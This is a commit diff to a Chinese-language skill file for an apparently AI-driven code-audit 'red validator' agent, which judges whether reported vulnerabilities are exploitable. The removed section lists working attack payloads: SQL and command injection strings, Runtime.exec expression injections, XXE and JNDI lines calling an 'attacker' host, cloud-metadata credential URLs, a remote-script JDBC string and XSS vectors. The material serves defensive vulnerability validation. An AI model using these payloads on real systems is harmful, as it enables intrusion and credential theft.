

Before and after one commit to Wang1921/CodeAudit, a Markdown page: skill/red-validator/SKILL.md, the part around one of its changes. Shown at 93% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
fix: 优化 RedValidator skill
- 要求主动读取校验代码，发现有效校验后立即输出 NOT_EXPLOITABLE
- 新增步骤 1.5 区分技术类与业务逻辑漏洞分析
- 删除重复的 PoC 模板列表，改为引用 references 目录
- 强化 defense_analysis 要求（≥50 字符，需含防御手段、代码位置、有效性说明）
- 明确 max_impact 必填

Co-Authored-By: Claude Opus 4.7 <noreply@anthropic.com>

```diff
--- a/skill/red-validator/SKILL.md
+++ b/skill/red-validator/SKILL.md
@@ -26,6 +26,8 @@ description: 红队攻击验证专家运行时指导。当 RedValidator Agent
 ### 1. 逐参数可控性分析（最关键步骤）
 - 列出 sink 调用中**每一个**动态参数
 - 对每个参数，沿 `call_chain` 追溯其来源
+- **必须主动读取校验代码**：在 call_chain 的每个节点，检查是否存在输入校验、参数化查询、输出编码、路径规范化等防御逻辑。只看到"有调用"不够，必须确认调用点附近是否有过滤/转义代码。
+- **一旦确认有有效校验，立即输出 NOT_EXPLOITABLE，不要继续构思 PoC**
 - **只要有一个参数可被攻击者控制且未经有效过滤 → 整体判 EXPLOITABLE**
 - 只有**所有**参数都被有效过滤才能判 NOT_EXPLOITABLE
 
@@ -34,61 +36,20 @@ description: 红队攻击验证专家运行时指导。当 RedValidator Agent
 - 错判 NOT_EXPLOITABLE："前面有 if 判断" —— 但 if 只判断了部分变量
 - 错判 NOT_EXPLOITABLE："需要登录" —— 已登录用户仍可利用
 
+### 1.5 区分漏洞类型
+根据 `vuln_type` 决定分析路径：
+
+**技术类漏洞**（SQL Injection / Command Injection / XSS / Path Traversal / SSRF / XXE / 不安全反序列化 等）：使用步骤1 的"逐参数可控性分析 + 校验审查"
+
+**业务逻辑漏洞**（IDOR / Privilege Escalation / Authentication Bypass / Workflow Bypass / Race Condition / Insufficient Anti-Automation）：使用"权限/状态机审查"
+- 检查目标资源是否有 ownership 校验
+- 检查状态转换是否有前置条件校验
+- 检查并发操作是否有锁/事务保护
+- 检查认证失败是否有计数/限流
+
 ### 2. 构思攻击向量与 PoC
 
-按 `vuln_type` 查阅 `references/INDEX.md` 找到对应文档，重点关注"PoC 模板"段落。
-以下是各漏洞类型的快速参考：
-
-**SQL Injection**
-- 闭合引号：`' OR '1'='1`、`" OR "1"="1`
-- UNION 提取：`' UNION SELECT password FROM users--`
-- 盲注时间型：`' AND SLEEP(5)--`
-- MyBatis `${}`：直接注入列名/表名
-- MSSQL 堆叠查询：`; EXEC xp_cmdshell 'id'`
-
-**Command Injection**
-- shell 元字符：`; id`、`| id`、`&& id`、`$(id)`、`` `id` ``
-- ProcessBuilder 单 argv：`-c` 参数注入或 PATH 劫持
-
-**Code Injection（OGNL / MVEL / Groovy / JEXL）**
-- OGNL：`@java.lang.Runtime@getRuntime().exec({'id'})`
-- MVEL：`Runtime.getRuntime().exec("id")`
-- Groovy：`"id".execute().text`
-- JEXL：`''.getClass().forName('java.lang.Runtime').getMethod('exec',...).invoke(...)`
-- Nashorn：`Java.type("java.lang.Runtime").getRuntime().exec("id")`
-
-**Path Traversal / Zip Slip**
-- Unix：`../../../etc/passwd`
-- URL 双编码：`%2e%2e%2f`
-- Windows：`\..\`
-- UNC：`\\attacker\share`
-- Zip Slip：ZipEntry 名含 `../../../etc/cron.d/malicious`
-
-**XXE**
-- 本地文件读取：`<!ENTITY xxe SYSTEM "file:///etc/passwd">`
-- 带外 SSRF：`<!ENTITY xxe SYSTEM "http://attacker/exfil?d=...">`（参数实体）
-
-**SSRF**
-- 内网探测：`http://127.0.0.1:8500/v1/catalog/services`（Consul）
-- 云元数据：`http://169.254.169.254/latest/meta-data/iam/security-credentials/`
-- DNS rebinding：`*.nip.io` 或自建解析器
-
-**LDAP Injection**：`*` 通配枚举、`)(objectclass=*` 闭合注入
-**XPath Injection**：`' or '1'='1`、布尔盲注 `string-length(password)>5`
-**Unsafe Deserialization**：Commons Collections `InvokerTransformer`、ROME `ToStringBean`、ysoserial 预制 payload
-**JNDI Injection**：`ldap://attacker.com/Exploit`、`rmi://attacker.com/Exploit`
-**JDBC URL Injection**：
-  - MySQL：`jdbc:mysql://attacker/?allowLoadLocalInfile=true`（客户端任意文件读）
-  - H2：`jdbc:h2:mem:;INIT=SCRIPT FROM 'http://attacker/e.sql'`（RCE）
-**XSS**（按输出上下文）：
-  - HTML body：`<script>alert(1)</script>`、`<img src=x onerror=alert(1)>`
-  - HTML 属性：`" onmouseover="alert(1)`
-  - JS 上下文：`';alert(1);//`
-  - URL 属性：`javascript:alert(1)`
-**Open Redirect**：`//attacker.com`、`https:attacker.com`、域名尾注入
-**Unsafe Reflection**：`java.lang.Runtime` / `javax.naming.InitialContext` 作为 Class.forName 参数
-**Trust Boundary Violation**：`/setPref?key=role&value=ADMIN` 写入 session
-**Sensitive Data in Log/URL**：泄露即漏洞，`attack_vector` 写"通过中心化日志泄露"
+按 `vuln_type` 查阅 `references/` 目录下的对应文档获取 PoC 模板。例如 SQL Injection 查阅 `injection-family.md`，XSS 查阅 `xss.md`。
 
 ### 3. 评估最大危害
 - RCE：命令注入、代码注入、不安全反序列化、JNDI 注入
```
Also changed, not shown: other parts of skill/red-validator/SKILL.md (+8 -4 lines).
